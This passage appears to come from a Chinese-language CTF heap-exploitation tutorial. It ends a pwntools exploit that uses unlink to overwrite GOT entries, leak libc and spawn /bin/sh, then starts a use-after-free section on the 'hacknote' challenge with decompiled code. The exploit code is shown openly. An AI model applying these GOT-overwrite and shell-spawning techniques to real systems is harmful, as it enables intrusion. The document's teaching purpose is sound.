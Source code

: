 ```python
py += p64(0) + p64(0)
py += p64(0x30) + p64(0x100)
py += p64(0) + p64(0)
py += p64(0) + p64(0)
edit(0, 0x60, py)
# free会触发unlink
free(1)

# 接下来，edit第一个chunk会导致本来指向这些chunk的指针指向别的地方
atoi_got = elf.got['atoi']
free_got = elf.got['free']
py = b''
py += b'a'*0x18 + p64(atoi_got) + p64(atoi_got) + p64(free_got)
edit(0, 0x30, py)


# 这里将free的got表指向puts_plt，调用free时会变成调用puts
edit(2, 0x8, p64(elf.plt['puts']))
# 下面是程序里的free，其实是执行free(chunk[0])，也就是puts(chunk[0])，会打印atoi的got表
free(0)
a = p.recv()
atoi_libc = u64(p.recv(6).ljust(8, b'\x00'))
libc_base = atoi_libc - libc.symbols['atoi']
system_libc = libc_base + libc.symbols['system']
edit(1, 0x8, p64(system_libc))
p.recvuntil('Your choice: ')
p.sendline(b'/bin/sh\x00')
p.interactive()
```



## use after free (UAF)

顾名思义，`use after free`是对已经被`free`的内容进行读写的操作。若用户在对指针进行`free`操作后没有将其置空，则该指针可能仍然可以被使用。（根据测试，`glibc2.23`中仍然可以使用，但在最新版本中对`free`后的指针使用会报错，具体修复版本待测试）

以一道例题`hacknote`为例子：

![image-20230209153120915](https://ltfallpics.oss-cn-hangzhou.aliyuncs.com/images/202302091531551.png)

`32位程序`，经典菜单，这个程序有三种功能，即添加、删除、打印`note`。

`add_note`部分代码如下：

```c
unsigned int add_note()
{
  _DWORD *v0; // ebx
  signed int i; // [esp+Ch] [ebp-1Ch]
  int size; // [esp+10h] [ebp-18h]
  char buf; // [esp+14h] [ebp-14h]
  unsigned int v5; // [esp+1Ch] [ebp-Ch]

  v5 = __readgsdword(0x14u);
  if ( count <= 5 )
  {
    for ( i = 0; i <= 4; ++i ) // 最多有五个note
    {
      if ( !notelist[i] )
      {
        notelist[i] = malloc(8u); // notelist[i]申请了8字节空间
        if ( !notelist[i] )
        {
          puts("Alloca Error");
```
